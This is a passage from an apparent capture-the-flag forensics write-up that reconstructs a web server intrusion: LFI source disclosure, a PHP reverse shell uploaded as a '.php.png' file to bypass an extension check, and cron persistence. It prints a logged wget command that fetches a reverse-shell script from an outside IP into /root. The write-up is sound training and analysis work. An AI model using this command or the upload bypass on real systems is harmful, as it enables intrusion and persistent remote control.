 -> They managed to **upload reverse shell** (that executed the Base64-encoded commands that we found in the first place). You can notice the file ```ev1L.php.png``` has **bypassed the extension check** by simply adding ```.png``` at the end of it ; a vulnerability caused by bad file sanitization and linked to **CWE-434: Unrestricted Upload of File with Dangerous Type, our element #2 and second vulnerability !!**

<br><br><br>
# Command history : the persistence file

We can now check the **systemd logs**, which contain the commands history. I start by filtering out every event that happened before the payload got uploaded.

I search for the keyword `s1mpl3-r3vsh3ll-vps.sh`, which is the tool that got downloaded on the target machine we found [here][filter-part]. I naturally search for a moment when the attacker **downloads** another file that will serve their persistence.
After some manipulations, the attacker finally downloads a file :
```bash
EXECVE argc=4 a0="wget" a1-"http://163.172.67.201:49999/s1mpl3-r3vsh3ll.sh" a2="-0" a3="/root/.0x00/pwn3d-by-nullv4stati0n.sh"
```
They, then, **add it to the crontab** (a table that contains tasks that execute at regular intervals and can stay even after the machine is turned off), which demonstrates the persistence of the file. We got our last **element #4 : `/root/.0x00/pwn3d-by-nullv4stati0n.sh` !**

<br><br><br>
# Attack Summary

We have **gathered the four key artifacts** and can conclude that the attacker proceeded through the following phases:

---

1. Reconnaissance – Content Discovery
  - Content discovery using various methods / tools to enumerate accessible resources on the target server.
2. Attempt to Upload Malicious Content
  - They searched for a way to upload a malicious file, probing the application's upload mechanisms and endpoints.
3. Source Code Disclosure via LFI (CWE-98)
  - The attacker exploited a **Local File Inclusion** vulnerability to access sensitive server files.
  - Through this, they retrieved the source code of the `admin-page/manage` endpoint.
  - **Element #1** identified: `CWE-98: Improper Control of File Name or Path`.
4. Malicious File Upload (CWE-434)
  - With the upload logic understood, they successfully uploaded a malicious file due to an **unrestricted file upload vulnerability**.
  - **Element #2** identified: `CWE-434: Unrestricted Upload of File with Dangerous Type`.
5. Reverse Shell Retrieval
  - The payload included a call to retrieve a reverse shell tool from:  
  `163[.]172.67.201`  
  - **Element #3**: external IP and malicious binary source.
6. Persistence via Cron
  - Using the reverse shell, they downloaded a file:  
  `/root/.0x00/pwn3d-by-nullv4stati0n.sh`
  - It was then added to `crontab`, establishing **persistence** on the compromised system.

---

[mission1]: http://localhost:4000/TheWatchNode/ctf/dgse-ctf-2025-m1/
[ffuf]: https://github.com/ffuf/ffuf
[LFI]: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
[cwe-98]: https://cwe.mitre.org/data/definitions/98.html
[cwe-434]: https://cwe.mitre.org/data/definitions/434.html
[filter-part]: https://silkyheldi.github.io/TheWatchNode/ctf/dgse-ctf-2025-m2#filters-for-commands-execution-in-requests